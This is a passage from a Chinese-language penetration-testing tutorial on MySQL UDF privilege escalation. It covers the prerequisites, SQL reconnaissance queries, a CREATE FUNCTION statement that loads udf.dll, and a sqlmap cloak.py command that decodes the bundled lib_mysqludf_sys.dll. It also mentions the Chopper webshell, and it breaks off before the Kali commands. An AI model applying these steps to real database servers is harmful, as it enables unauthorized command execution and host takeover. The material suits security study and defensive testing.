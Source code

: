 **数据库提权的前提条件：**  
  
1、服务器开启数据库服务  
  
2、获取到最高权限用户密码  
  
(除Access数据库外，其他数据库基本都存在数据库提权的可能)  
  
3、secure_file_priv的值为空  
  
4、如果mysql版本大于5.1，udf.dll文件必须放置在mysql安装目录的lib\plugin文件夹下/  
  
5、如果mysql版本小于5.1， udf.dll文件在windows server 2003下放置于c:\windows\system32目录，在windows server 2000下放置在c:\winnt\system32目录。  

```
show variables like 'plugin%';   【查看 plugin 目录】
show global variables like 'secure%'; 【查看secure_file_priv】
select @@basedir; 【查看mysql安装路径】
show variables like '%version_%'; 【确定平台是64位还是32位】

```

#### 1、Mysql_udf提权  
##### 原理  
  
由于MySQL支持UDF（user define function），支持我们自定义函数来扩展功能。当我们创建带有调用cmd函数的’udf.dll’(动态链接库)。当我们把’udf.dll’导出指定文件夹引入Mysql时，其中的调用函数拿出来当作mysql的函数使用。这样我们自定义的函数才被当作本机函数执行。  

```
导入
CREATE FUNCTION example_function RETURNS INTEGER SONAME 'udf.dll';

```

##### udf.dll导出指定文件夹  
  
当 MySQL< 5.1 版本时，将 .dll 文件导入到 c:\windows 或者 c:\windows\system32 目录下。  
  
当 MySQL> 5.1 版本时，将 .dll 文件导入到 MySQL Server 5.xx\lib\plugin 目录下 (lib\plugin目录默认不存在，需自行创建)。  
##### plugin目录创建方式  
  
通过菜刀连接创建  
  
通过mysql语句创建  
##### Windows/linux获取udf文件：使用sqlmap生成  
  
**1、Windows下进入sqlmap安装目录下的extra\cloak目录下使用cloak.py工具**  

```
python cloak.py -d -i C:\sqlmap\data\udf\mysql\windows\64\lib_mysqludf_sys.dll

```

  
sqlmap的data目录下udf的加密文件，使用上述命令解密一下即可获得udf.dll。  
  
**2、Kali下获取udf文件**  
  
将Kali系统中sqlmap自带的udf提权库文件进行解码。 在Kali攻击机上，启动终端，依次输入如下命令：  

